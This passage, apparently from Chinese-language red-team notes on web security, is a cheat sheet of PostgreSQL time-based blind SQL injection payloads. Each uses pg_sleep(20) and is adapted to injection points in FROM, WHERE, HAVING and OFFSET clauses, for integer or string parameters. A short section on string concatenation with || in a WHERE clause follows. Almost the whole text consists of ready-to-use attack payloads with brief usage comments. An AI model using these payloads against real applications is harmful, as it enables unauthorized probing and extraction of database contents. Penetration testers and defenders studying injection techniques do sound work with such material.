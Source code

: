 FROM
```sql
-- 当payload的第一个SELECT子句中提供了有效的表名(TABLE)和列(COLUMN)时
(SELECT * FROM [TABLE] WHERE [COLUMN]=1|(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -

-- 或者
(SELECT * FROM [TABLE] WHERE [COLUMN] = 'asd'::varchar||(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -

-- 当已知列需要一个Int
(SELECT * FROM address WHERE address_id=1|(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -

-- 当已知列需要字符串时
(SELECT * FROM address WHERE address = 'asd'::varchar||(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END))) ss; -- -
```

WHERE
```sql
-- 如果参数是整数
1|(SELECT (SELECT CASE WHEN COUNT((SELECT pg_sleep(20)))<>0 THEN 1 ELSE 2 END)); -- -

-- 如果参数是字符串
'||(pg_sleep(20)); -- -
```

HAVING
```sql
-- 如果参数是整数：
(COUNT((SELECT pg_sleep(20)))=1); -- -

-- 如果参数是字符串：
t' AND (SELECT COUNT((SELECT pg_sleep(20)))) = 1; -- -
```

OFFSET
```sql
-- 如果参数是整数：
1|(SELECT COUNT((SELECT pg_sleep(20)))); -- -

-- 如果参数是字符串
1'::integer + 1|(SELECT COUNT((SELECT pg_sleep(20)))); -- -
```

**当注入点在 WHERE 时**

可以配合 `||`
```sql
select * from test where username='admin' and password='admin'
select * from test where username='admin' and password=''||(select password);
```

![](../../../../../assets/img/Security/RedTeam/Web安全/Web_Generic/SQLi/39.png)
